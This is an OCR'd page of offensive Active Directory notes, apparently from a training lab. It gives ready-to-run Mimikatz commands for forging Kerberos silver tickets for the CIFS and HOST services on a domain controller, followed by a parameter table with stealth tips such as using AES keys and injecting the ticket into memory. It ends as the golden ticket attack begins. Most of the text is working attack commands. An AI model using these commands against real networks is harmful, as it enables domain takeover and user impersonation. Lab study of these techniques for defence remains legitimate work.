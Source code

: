## # `Silver Ticket Windows` -

• Using hash of the Domain Controller computer account, below command provides access to shares on the DC :

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21- 1874506631-3219952063-538504511 /target:dcorpdc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```

- Silver ticket for the HOST SPN which will allow us to schedule a task on the target :

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21- 1874506631-3219952063-538504511 /target:dcorpdc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```

• Similar command can be used for any other service on a machine. Which services? HOST, RPCSS, HTTP and many more.

| Invoke-Mimikatz -Command   |   |
|-----------------------------|--------------------------------------------------------------------|
| kerberos::golden|Name of the module (there is no Silver module!)                                                             |
| /User:Administrator |Username for which the TGT is generated                                     |
| /domain:dollarcorp.moneycorp.local |Domain FQDN                                                  |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the domain                                |                                                                
| /target:dcorp-dc.dollarcorp.moneycorp.local | Target server FQDN|
| /service:cifs | The SPN name of service for which TGS is to be created |
| /rc4:6f5b5acaf7433b3282ac22e21e62ff22  | NTLM (RC4) hash of the service account. Use /aes128 and /aes256 for using AES keys which is more silent |
| /id:500 /groups:512 | Optional User RID (default 500) and Group (default 513 512 520 518 519) |
| /ptt | Injects the ticket in current PowerShell process - no need to save the ticket on disk |
| /startoffset:0 | Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future.
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |

## # `Golden Ticket Attack` -

1. A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.
2. The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.

• Execute mimikatz on DC as DA to get krbtgt hash :
